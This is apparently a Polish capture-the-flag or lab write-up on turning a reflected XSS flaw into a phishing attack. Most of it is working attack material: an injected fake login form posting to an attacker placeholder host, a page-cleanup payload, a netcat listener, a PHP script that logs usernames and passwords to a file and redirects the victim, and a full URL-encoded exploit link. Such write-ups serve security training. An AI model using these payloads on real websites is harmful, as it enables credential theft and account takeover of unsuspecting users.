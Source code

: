 # **XSS - Phishing (PL)**

Autor: `adi7312`

## **Odkrycie podatności XSS**

W pierwszej kolejności musimy zidentyfikować podatność, poniższy payload wystarczył do stwierdzenia że XSS faktycznie występuje.

```html
'><script>alert(1)</script>
```


![](p/7.png)


## **Forms injection**

Teraz zajmiemy się wstrzyknięciem fałszych formularzy logowania. Poniżej znajduje się przykładowy formularz:

```html
<h3>Please login to continue</h3>
<form action=http://IP_ATAKUJACEGO>
    <input type="username" name="username" placeholder="Username">
    <input type="password" name="password" placeholder="Password">
    <input type="submit" name="submit" value="Login">
</form>
```
W celu zapisania tego formularza na stronie należy użyć `document.write()`. Ostatecznie payload powinien wyglądać następująco:

```html
'><script>document.write('<h3>Please login to continue</h3>
<form action=http://IP_ATAKUJACEGO>
    <input type="username" name="username" placeholder="Username">
    <input type="password" name="password" placeholder="Password">
    <input type="submit" name="submit" value="Login">
</form>')</script>
```

![](p/8.png)

Pomyślnie wstrzykneliśmy fałszywe formularze.

## **Czyszczenie strony**
   
Póki co ofiara pewnie nie nabrałaby się na taką stronę jaką mamy teraz. Musimy pozbyć się Image URL i nawiasu znacznika. W celu pozbycia się Image URL należy skorzystać z `document.getElementById().remove()`, żeby dowiedzieć się jakie id ma ten element należy skorzystać z Developer Tools. Jak widzimy id to `urlform`


![](p/9.png)


Żeby pozbyć się znacznika na końcu payloadu musimy dać otwierający komentarz `<!--`.


Ostatecznie nasz payload powinien wyglądać tak:
```html
'><script>document.write('<h3>Please login to continue</h3>
<form action=http://IP_ATAKUJACEGO:PORT>
    <input type="username" name="username" placeholder="Username">
    <input type="password" name="password" placeholder="Password">
    <input type="submit" name="submit" value="Login">
</form>'); document.getElementById('urlform').remove()</script><!--

```

## **Kradzież danych**

Ustawiamy netcata żeby nasłuchiwał na porcie 1234:
```
sudo nc -nlvp 1234
```

Teraz możemy przetestować działanie naszej fałszywej strony wpisując w formluarzu jakieś dane testowe, np. test:test. Wówczas w netcat zauważymy output:

![](p/10.png)

W parametrze GET dokładnie widać wpisane wartości. Jednak netcat nie do końca poprawnie obsługuje żądania HTTP, ofiara może dostać błąd `Unable to connect`, co może być podejrzane, możemy więc napisać prosty skrypt w PHP który spowoduje później przekierowanie ofiary na dobrą stronę. W tym celu należy wykonać następujące polecenia:

```
mkdir /tmp/tmpserver
cd /tmp/tmpserver
nano index.php
```
W pliku index.php wpisujemy następująca zawartość przy czym pamiętamy o wpisaniu poprawnego IP.

```php
<?php
if (isset($_GET['username']) && isset($_GET['password'])) {
    $file = fopen("creds.txt", "a+");
    fputs($file, "Username: {$_GET['username']} | Password: {$_GET['password']}\n");
    header("Location: http://SERVER_IP/phishing/index.php");
    fclose($file);
    exit();
}
?>
```

Następnie uruchamiamy serwer php.
```
sudo php -S 0.0.0.0:PORT
```

Wchodzimy teraz na stronę /phishing/send.php i wrzucamy tam nasz cały payload.
```
http://SITE_IP/phishing/index.php?url=%27%3E%3Cscript%3Edocument.write(%27%3Ch3%3EPlease+login+to+continue%3C%2Fh3%3E+%3Cform+action%3Dhttp%3A%2F%2FATTACK_IP%3APORT%3E+++++%3Cinput+type%3D%22username%22+name%3D%22username%22+placeholder%3D%22Username%22%3E+++++%3Cinput+type%3D%22password%22+name%3D%22password%22+placeholder%3D%22Password%22%3E+++++%3Cinput+type%3D%22submit%22+name%3D%22submit%22+value%3D%22Login%22%3E+%3C%2Fform%3E%27)%3B+document.getElementById(%27urlform%27).remove()%3C%2Fscript%3E%3C!--
```

Po wysłaniu payloada, w folderze /tmp/tmpserver powinien utworzyć sie plik z danymi. 


![](p/11.png)


W celu otrzymania flagi pozostało nam jedynie zalogować się na /phishing/login.php


![](p/12.png)